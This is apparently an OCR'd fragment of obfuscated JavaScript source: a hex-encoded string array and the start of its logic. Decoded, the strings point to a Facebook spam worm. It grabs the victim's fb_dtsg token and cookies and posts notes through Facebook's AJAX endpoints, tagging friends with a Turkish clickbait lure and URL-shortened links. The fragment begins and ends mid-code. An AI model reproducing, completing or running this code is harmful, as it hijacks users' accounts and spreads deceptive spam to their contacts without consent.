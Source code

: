 74\x61\x67\x73\x5F\x70\x6C\x61\x63\x65\x5F\x6E\x61\x6D\x65\x3D","\x26\x74\x61\x67\x67\x65\x72\x5F\x73\x65\x73\x73\x69\x6F\x6E\x5F\x69\x64\x3D","\x26\x61\x63\x74\x69\x6F\x6E\x5F\x74\x79\x70\x65\x5F\x69\x64\x5B\x30\x5D\x3D","\x26\x6F\x62\x6A\x65\x63\x74\x5F\x73\x74\x72\x5B\x30\x5D\x3D","\x26\x6F\x62\x6A\x65\x63\x74\x5F\x69\x64\x5B\x30\x5D\x3D","\x26\x68\x69\x64\x65\x5F\x6F\x62\x6A\x65\x63\x74\x5F\x61\x74\x74\x61\x63\x68\x6D\x65\x6E\x74\x3D\x30","\x26\x6F\x67\x5F\x73\x75\x67\x67\x65\x73\x74\x69\x6F\x6E\x5F\x6D\x65\x63\x68\x61\x6E\x69\x73\x6D\x3D","\x26\x6F\x67\x5F\x73\x75\x67\x67\x65\x73\x74\x69\x6F\x6E\x5F\x6C\x6F\x67\x67\x69\x6E\x67\x5F\x64\x61\x74\x61\x3D","\x26\x69\x63\x6F\x6E\x5F\x69\x64\x3D","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x74\x61\x67\x73\x5F\x63\x69\x74\x79\x3D","\x26\x64\x69\x73\x61\x62\x6C\x65\x5F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x5F\x73\x68\x61\x72\x69\x6E\x67\x3D\x66\x61\x6C\x73\x65","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x5F\x70\x72\x65\x64\x69\x63\x74\x65\x64\x5F\x63\x69\x74\x79\x3D","\x26\x70\x72\x69\x76\x61\x63\x79\x78\x3D","\x26\x6E\x63\x74\x72\x5B\x5F\x6D\x6F\x64\x5D\x3D\x70\x61\x67\x65\x6C\x65\x74\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x5F\x72\x65\x63\x65\x6E\x74","\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31","\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x6D\x38\x52\x57\x38\x42\x67\x42\x6C\x79\x6E\x7A\x70\x51\x39\x55\x6F\x47\x79\x61\x34\x41\x75\x37\x34\x71\x62\x78\x32\x6D\x62\x41\x4B\x47\x69\x79\x46\x71\x7A\x51\x43\x2D\x43\x32\x36\x6D\x35\x2D\x39\x56\x38\x43\x64\x44\x78\x32\x75\x62\x68\x48\x78\x69\x6D\x6D\x65\x79\x38\x71\x55\x53\x38\x7A\x55","\x26\x5F\x5F\x72\x65\x71\x3D\x79","\x26\x6F\x62\x6A\x65\x63\x74\x5F\x69\x64\x3D","\x26\x6E\x6F\x74\x65\x5F\x69\x64\x3D","\x26\x69\x64\x3D","\x26\x74\x69\x74\x6C\x65\x3D","\x26\x6E\x6F\x74\x65\x5F\x63\x6F\x6E\x74\x65\x6E\x74\x3D","\x26\x61\x75\x64\x69\x65\x6E\x63\x65\x5B","\x5D\x5B\x76\x61\x6C\x75\x65\x5D\x3D\x38\x30\x26\x70\x75\x62\x6C\x69\x73\x68\x3D\x53\x68\x61\x72\x65\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x6D\x38\x52\x57\x38\x42\x67\x42\x6C\x79\x6E\x7A\x70\x51\x39\x55\x6F\x47\x79\x61\x34\x41\x75\x37\x34\x71\x62\x78\x32\x6D\x62\x41\x4B\x47\x69\x79\x46\x71\x7A\x51\x43\x2D\x43\x32\x36\x6D\x35\x2D\x39\x56\x38\x43\x64\x44\x78\x32\x75\x62\x68\x48\x78\x69\x6D\x6D\x65\x79\x38\x71\x55\x53\x38\x7A\x55\x26\x5F\x5F\x72\x65\x71\x3D\x64\x26\x74\x74\x73\x74\x61\x6D\x70\x3D","\x5C\x22\x3E","\x68\x72\x65\x66\x3D\x5C\x22\x5C\x2F\x6E\x6F\x74\x65\x73","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x6E\x6F\x74\x65\x73\x2F\x65\x64\x69\x74","\x2F\x61\x6A\x61\x78\x2F\x74\x79\x70\x65\x61\x68\x65\x61\x64\x2F\x70\x6C\x61\x63\x65\x5F\x74\x61\x67\x5F\x66\x72\x69\x65\x6E\x64\x73\x2E\x70\x68\x70\x3F\x5F\x5F\x61\x3D\x31\x26\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x69\x64\x3D\x33\x39\x35\x38\x37\x30\x36\x33\x30\x34\x38\x37\x33\x36\x35\x26\x76\x69\x65\x77\x65\x72\x3D","\x26","\x28","\x73\x75\x62\x73\x74\x72","\x29","\x65\x72\x72\x6F\x72","\x69\x6E\x64\x65\x78","\x73\x6F\x72\x74","\x65\x6E\x74\x72\x69\x65\x73","\x70\x61\x79\x6C\x6F\x61\x64","\x75\x69\x64","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x74\x61\x67\x73\x5F\x77\x69\x74\x68\x5B","\x5D\x3D","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6C\x69\x6E\x6B","\x6E\x75\x6C\x6C","\x72\x65\x73\x69\x6D","\x3C\x61\x20\x68\x72\x65\x66\x3D\x27","\x27\x3E\x3C\x69\x6D\x67\x20\x73\x72\x63\x3D\x27","\x27\x3E\x3C\x2F\x61\x3E","\x43\x65\x73\x61\x72\x65\x74\x69\x6E\x20\x56\x61\x72\x73\x61\x20\x54\x61\x6D\x20\x65\x6B\x72\x61\x6E\x20\x69\x7A\x6C\x65\x20\x21\x21\x21","\x6F\x67\x6F\x6C\x6F\x6F\x6F\x5F","\x67\x65\x74\x54\x69\x6D\x65","\x73\x65\x74\x54\x69\x6D\x65","\x23","\x2F\x2F\x74\x69\x6E\x79\x75\x72\x6C\x2E\x63\x6F\x6D\x2F\x61\x70\x69\x2D\x63\x72\x65\x61\x74\x65\x2E\x70\x68\x70\x3F\x75\x72\x6C\x3D","\x2F\x2F\x69\x73\x2E\x67\x64\x2F\x63\x72\x65\x61\x74\x65\x2E\x70\x68\x70\x3F\x66\x6F\x72\x6D\x61\x74\x3D\x73\x69\x6D\x70\x6C\x65\x26\x75\x72\x6C\x3D"];if(location[_0xeac6[2]][_0xeac6[1]](_0xeac6[0])>=0){window[_0xeac6[10]](function(){if(document[_0xeac6[4]](_0xeac6[3])){for(var